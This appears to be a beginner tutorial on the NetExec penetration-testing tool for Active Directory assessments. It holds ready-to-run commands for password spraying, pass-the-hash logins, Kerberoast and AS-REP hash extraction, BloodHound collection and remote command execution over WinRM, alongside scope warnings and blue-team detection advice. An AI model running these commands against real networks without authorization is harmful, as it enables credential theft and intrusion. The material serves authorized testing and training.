





## TL;DR

`NetExec` (`nxc`) is a fast post-enumeration and credential-validation framework for internal network and Active Directory assessments. It lets you use one command style across protocols (`smb`, `ldap`, `winrm`, `mssql`, `ssh`, etc.), so you can move from discovery to validated access without constantly switching tools. For beginners, the biggest win is consistency: once you understand the core pattern, the rest is mostly protocol-specific options.

---

## What NetExec Does

| Capability | Why It Matters |
|---|---|
| Multi-protocol workflows | Same CLI pattern across SMB/LDAP/WinRM and more |
| Credential validation at scale | Quickly identify where creds/hashes are valid |
| SMB/LDAP/WinRM enumeration | Gather AD and host-level intel in one tool |
| Password spraying controls | Limit failed auth to reduce lockout risk |
| Command execution support | Execute commands where rights allow |
| Module framework | Extend workflows with protocol-specific modules |
| Logging and automation-friendly output | Easy to integrate into repeatable pentest playbooks |

---

## What NetExec Cannot Do

| Limitation | Reason |
|---|---|
| Replace full AD graph analysis by itself | You still need tools like BloodHound for deep path analysis |
| Bypass account lockout policies magically | Bad spray strategy can still lock accounts |
| Guarantee code execution after auth success | Auth success does not always mean admin/remote-exec rights |
| Hide noisy operations automatically | Some actions (exec, dumps, modules) are high-signal for blue teams |
| Work ethically without scope and authorization | This is an offensive security tool and must stay in legal scope |

---

## Core Mental Model

`nxc` follows a simple shape:

```bash
nxc <protocol> <target(s)> [auth] [action/options]
```

A practical beginner workflow is:

1. Discover reachable hosts and exposed protocol surfaces.
2. Validate credentials/hashes safely.
3. Enumerate useful information (shares, users, groups, policies).
4. Execute only where privileges and scope allow.
5. Record findings and pivot carefully.



---

## Step 0: Safety Baseline Before Touching Production

Before running broad authentication attempts, check lockout policy and define strict spray limits. In beginner engagements, account lockout incidents usually come from poor pacing and too many username/password combinations at once. NetExec gives you controls to constrain failure counts globally, per user, and per host.

```bash
nxc smb 10.10.10.10 -u 'auditor' -p 'LabPassword!23' --pass-pol
```

```bash
nxc smb targets.txt -u users.txt -p passwords.txt --gfail-limit 5 --ufail-limit 2 --fail-limit 3 --jitter 2
```

---

## Step 1: Initial SMB Mapping

SMB is often the best first pass in AD-heavy environments because it reveals host details, signing state, and where your credentials are accepted. Start with a broad, low-impact probe to identify active systems and protocol characteristics. Even without valid creds, this can quickly shape your next steps.

```bash
nxc smb targets.txt
```

If you need relay-oriented triage, generate a list of hosts not requiring SMB signing. This is useful for attack path modeling and defensive reporting, but only use it in authorized tests.

```bash
nxc smb targets.txt --gen-relay-list no_signing_hosts.txt
```



---

## Step 2: Validate Credentials and Hashes

Once you have candidate credentials, validate them at scale before deeper enumeration. This prevents wasting time on hosts where access is invalid and quickly identifies privilege footholds. Use one credential set first, then expand carefully to avoid lockout spikes.

```bash
nxc smb targets.txt -u 'jane.doe' -p 'Winter2026!' --continue-on-success
```

For Pass-the-Hash validation, provide the NTLM hash directly. This is common in lateral movement workflows where plaintext is unavailable.

```bash
nxc smb targets.txt -u 'administrator' -H '<NTHASH>' --continue-on-success
```

When testing local admin reuse (not domain auth), force local authentication explicitly.

```bash
nxc smb targets.txt --local-auth -u 'administrator' -p 'P@ssw0rd!'
```



---

## Step 3: SMB Enumeration That Actually Helps Beginners

After you confirm valid access, enumerate data that directly improves attack-path visibility. Shares, user/group membership, and password policy usually give immediate actionable context. Keep enumeration targeted rather than dumping everything blindly.

```bash
nxc smb 10.10.10.20 -u 'jane.doe' -p 'Winter2026!' --shares
```

```bash
nxc smb 10.10.10.10 -u 'jane.doe' -p 'Winter2026!' --users
```

```bash
nxc smb 10.10.10.10 -u 'jane.doe' -p 'Winter2026!' --groups 'Domain Admins'
```

```bash
nxc smb 10.10.10.10 -u 'jane.doe' -p 'Winter2026!' --pass-pol
```

---

## Step 4: LDAP Enumeration and Roasting Prep

LDAP mode gives cleaner AD-centric intelligence than host-by-host SMB alone. Use it to enumerate users, groups, DCs, and domain identifiers, then branch into roasting workflows if allowed in scope. This phase often reveals high-value naming patterns and privilege boundaries.

```bash
nxc ldap 10.10.10.10 -u 'jane.doe' -p 'Winter2026!' --users --groups --dc-list --get-sid
```

To collect roastable material for offline cracking, NetExec can export both Kerberoast and AS-REP roast hashes.

```bash
nxc ldap 10.10.10.10 -u 'jane.doe' -p 'Winter2026!' --kerberoasting kerberoast_hashes.txt
```

```bash
nxc ldap 10.10.10.10 -u 'jane.doe' -p 'Winter2026!' --asreproast asrep_hashes.txt
```

For graph-based privilege path analysis, trigger BloodHound collection from the same toolchain.

```bash
nxc ldap 10.10.10.10 -u 'jane.doe' -p 'Winter2026!' --bloodhound -c All
```



---

## Step 5: WinRM Access Validation and Command Execution

WinRM is a common and cleaner remote management channel in enterprise Windows environments. Validate access first, then execute small verification commands (`whoami`, `hostname`) before any heavy action. This minimizes noise and confirms context quickly.

```bash
nxc winrm targets.txt -u 'jane.doe' -p 'Winter2026!'
```

```bash
nxc winrm 10.10.10.30 -u 'administrator' -H '<NTHASH>' -x 'whoami && hostname'
```

```bash
nxc winrm 10.10.10.30 -u 'administrator' -H '<NTHASH>' -X 'Get-Process | Select-Object -First 5'
```

---

## Step 6: Working with Modules

Modules let you extend built-in workflows, but beginners should always inspect module options before execution. Start by listing available modules, inspect the selected module flags, then run it against a narrow target set. This avoids accidental broad impact.

```bash
nxc smb 10.10.10.20 -u 'jane.doe' -p 'Winter2026!' -L
```

```bash
nxc smb 10.10.10.20 -u 'jane.doe' -p 'Winter2026!' -M <module_name> --options
```

```bash
nxc smb 10.10.10.20 -u 'administrator' -H '<NTHASH>' -M <module_name> -o KEY=VALUE
```



---

## Common Beginner Mistakes

| Mistake | Better Approach |
|---|---|
| Spraying too aggressively | Set `--gfail-limit`, `--ufail-limit`, `--fail-limit`, and `--jitter` |
| Assuming auth success means admin rights | Validate execution rights separately (`-x whoami`) |
| Running broad modules too early | Start with one host and explicit options |
| Ignoring protocol fit | Use SMB for share/host context, LDAP for AD objects, WinRM for command execution |
| Poor note-taking | Log commands, successful creds, host outcomes, and timestamps |

---

## Defensive Notes (Blue Team Perspective)

- Monitor repeated authentication attempts across many hosts from a single source.
- Watch for unusual SMB/WinRM command execution patterns shortly after spray activity.
- Alert on rapid LDAP enumeration bursts and bulk object queries.
- Enforce SMB signing and strong account lockout policies where feasible.
- Reduce credential reuse and apply tiered admin models to limit lateral movement.

---

## References

- [NetExec Wiki](https://www.netexec.wiki/)
- [NetExec GitHub](https://github.com/Pennyw0rth/NetExec)
- [MITRE ATT&CK: Valid Accounts (T1078)](https://attack.mitre.org/techniques/T1078/)
- [MITRE ATT&CK: Remote Services (T1021)](https://attack.mitre.org/techniques/T1021/)
- [MITRE ATT&CK: SMB/Windows Admin Shares (T1021.002)](https://attack.mitre.org/techniques/T1021/002/)
